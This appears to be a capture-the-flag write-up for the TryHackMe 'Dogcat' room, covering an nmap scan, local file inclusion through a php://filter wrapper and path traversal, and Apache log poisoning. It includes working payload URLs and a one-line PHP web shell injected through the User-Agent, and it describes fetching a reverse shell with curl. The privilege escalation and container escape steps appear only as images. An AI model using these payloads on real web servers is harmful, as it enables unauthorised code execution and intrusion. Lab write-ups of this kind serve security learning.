 # Dogcat 

[Link to room](https://tryhackme.com/room/dogcat)

## Enumeration

```nmap
# Nmap 7.80 scan initiated Sun Jun 28 04:10:22 2020 as: nmap -sC -sV -oN nmap.txt 10.10.129.248
Nmap scan report for 10.10.129.248
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 04:11:27 2020 -- 1 IP address (1 host up) scanned in 65.09 seconds
```

#### Web Exploitation

After a little research i find out a way to bypass the php filter [check out this site](https://www.php.net/manual/en/wrappers.php.php)

Now lets read the index page, http://dogcat.thm/?view=php://filter/read=convert.base64-encode/resource=./dog/../index

![dogcat-1](https://github.com/strange07/tryhackme/blob/master/Dogcat/1.png)
but this is a base-64 encoded lets decode it
![dogcat-2](https://github.com/strange07/tryhackme/blob/master/Dogcat/2.png)
lets see whats in the index page 
![dogcat-3](https://github.com/strange07/tryhackme/blob/master/Dogcat/3.png)
The site checks if the “ext” parameter was provided, and if not it adds “.php” by default to our filename

1. What is flag 1?

http://dogcat.thm/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag
![dogcat-4](https://github.com/strange07/tryhackme/blob/master/Dogcat/4.png)
![dogcat-5](https://github.com/strange07/tryhackme/blob/master/Dogcat/5.png)
2. What is flag 2?

According to our nmap scan the server runs on Apache so let’s try to get code execution with log poisoning

The access log path for Apache is “/var/log/apache2/access.log”
lets try to read logs `/?view=./dog/../../../../../../../var/log/apache2/access.log&ext`

![dogcat-6](https://github.com/strange07/tryhackme/blob/master/Dogcat/6.png)
you can check page to source to better understand the logs
We can see that next to the route there is the User-Agent parameter

***lets insert a small php script for code excution***
i use `user agent switcher addon` to put the php code `<?php system($_GET['cmd']);?>`

![dogcat-7](https://github.com/strange07/tryhackme/blob/master/Dogcat/7.png)

Now lets check if that works `view-source:http://dogcat.thm/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami`

![dogcat-8](https://github.com/strange07/tryhackme/blob/master/Dogcat/8.png)

I tried getting a reverse shell by executing a command but that doesn't works so i use curl to download a script from my local computer and executed it from webpage to get the reverse shell.So lets try it

First we will run a python server and then we will use curl command to output the shell into shell.php on the server 

![dogcat-9](https://github.com/strange07/tryhackme/blob/master/Dogcat/9.png)
![dogcat-10](https://github.com/strange07/tryhackme/blob/master/Dogcat/10.png)
Now lets execute the shell.php by simply navigating to it
![dogcat-11](https://github.com/strange07/tryhackme/blob/master/Dogcat/11.png)
![dogcat-12](https://github.com/strange07/tryhackme/blob/master/Dogcat/12.png)

#### Privilege Escalation

![dogcat-13](https://github.com/strange07/tryhackme/blob/master/Dogcat/13.png)

2. What is flag 2?

![dogcat-14](https://github.com/strange07/tryhackme/blob/master/Dogcat/14.png)

3. What is flag 3?

![dogcat-15](https://github.com/strange07/tryhackme/blob/master/Dogcat/15.png)

#### Escaping Docker

![dogcat-16](https://github.com/strange07/tryhackme/blob/master/Dogcat/16.png)

4. What is Question 4?

![dogcat-17](https://github.com/strange07/tryhackme/blob/master/Dogcat/17.png)
